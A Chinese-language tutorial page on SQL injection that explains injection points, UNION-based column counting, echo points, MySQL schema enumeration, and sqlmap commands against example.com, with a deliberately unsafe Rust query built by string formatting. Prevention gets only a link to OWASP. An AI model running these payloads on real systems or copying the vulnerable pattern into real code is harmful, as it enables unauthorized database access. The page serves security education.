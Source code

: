 # SQL 注入

**英文**: SQL Injection.

根据 OWASP Top Ten 2021 的统计结果, 注入 (包括 SQL 注入) 漏洞是常见的 Web 应用漏洞之一.[^owasp-2021]

许多的 SQL 语句是基于用户输入内容动态生成的, 如果没有对输入进行适当的过滤和转义, 攻击者就可以利用该漏洞**构造任意的 SQL 查询**, 从而实现未授权的数据访问或操作.  
部分数据库 (如 MySQL, PostgreSQL, MS SQL Server) 由于支持执行 Shell 命令或运行脚本 (如 PL/Perl, PL/Python), 攻击者甚至可以通过 SQL 注入漏洞执行任意代码, 实现远程代码执行 (RCE).

下面将介绍 SQL 注入的基本原理, 漏洞利用方法, 如何防范, 以及自动化工具 sqlmap 的基本用法.

## 注入点

首先需要识别可能与数据库进行交互的潜在注入点, 常见位置包括:

- 登录表单的用户名/密码字段.
- 搜索框输入参数.
- HTTP 的 GET 和 POST 参数.

以 URL `http://example.com/?id=1` 为例, 其中的 GET 参数 `id` 便可能是一个注入点.  
可以通过构造下面 URL 来检测该参数是否可以被注入:

```txt
http://example.com/?id=1'
```

假设对应的 SQL 语句如下:

```sql
SELECT * FROM users WHERE id = '{id}'
```

```rs
async fn query(Query(params): Query<HashMap<String, String>>) {
    let id = params.get("id").unwrap();
    let sql = format!("SELECT username, passowrd FROM users WHERE id = '{id}'");
}
```

如果不对参数 `id` 的值 `1'` 进行转义或过滤, 直接拼接到上面 SQL 查询语句中, 则会产生下面结果:

```sql
SELECT * FROM users WHERE id = '1''
```

此时, 数据库因引号不匹配将无法正确解析 SQL 语句并返回错误. 网站后端收到错误信息后, 可能表现为:

- **数据库错误信息暴露**: 返回包含具体数据库报错信息的页面.
- **通用错误页面**: 显示自定义的错误提示页面.
- **功能异常**: 页面数据加载失败或显示异常.

如果观察到此类异常现象, 则表明该参数可能存在 SQL 注入漏洞.

也可以使用自动化工具来检测是否存在 SQL 注入点:

```sh
python sqlmap.py -u "http://example.com/?id=1"
```

sqlmap 会自动检测该注入点的有效性, 并尝试获取数据库的基本信息.

## 数据回显点

用户输入内容一般位于 SQL 语句的 WHERE 子句中, 因此无法改变该 SQL 具体的查询内容.  
一个常见的作法是利用 UNION 关键字后接自定义的 SELECT 语句, 从而获取任意 SQL 查询的结果.

SQL 注入依赖 UNION 关键字. 该关键字存在以下限制:

- **字段数量一致**：两个 SELECT 语句的字段数量必须相同
- **字段类型兼容**：对应位置的字段数据类型必须兼容

假设原 SQL 语句一共查询了 2 个字段, 则可以使用下面的 SQL 语句来判断:

```sql
' UNION SELECT NULL --'
' UNION SELECT NULL, NULL --'
```

其中, 第一个 SQL 语句执行时会报错, 而第二个 SQL 语句能顺利执行. 因此可以判断, 该表只有 2 个字段.

```sh
python sqlmap.py -u "http://example.com/product?id=1" --technique=U --columns
```

SQL 语句的查询结果一部分会直接显示在页面上, 这部分数据称为数据回显点. 通过观察数据回显点, 可以逐步的获取任意 SQL 语句的查询结果.

```sql
UNION SELECT 'echo0', 'echo1'
```

```txt
http://example.com/?id=1' UNION SELECT 'echo0', 'echo1
```

假设执行后页面出现了 "echo1", 则表示该位置为注入点. 后续就可以利用该字段, 获取 SQL 查询的结果.

## 获取表结构

## 信息收集

下面以 MySQL 数据库为例, 通过几个例子说明如何利用 SQL 注入漏洞获取数据库信息.

### 获取当前数据库名称

```sql
SELECT DATABASE()
```

对应相似功能的 sqlmap 命令如下:

```sh
python sqlmap.py -u "http://example.com/product?id=1" --current-db
```

### 获取数据库中所有表的名称

```sql
SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = '<DATABASE>' -- 获取指定数据库中的表名
```

对应相似功能的 sqlmap 命令如下:

```sh
python sqlmap.py -u "http://example.com/product?id=1" -D "<DATABASE>" --tables
```

## 防范

请参考: <https://owasp.org/Top10/A03_2021-Injection/#how-to-prevent>.

[^owasp-2021]: <https://owasp.org/Top10/A03_2021-Injection/>
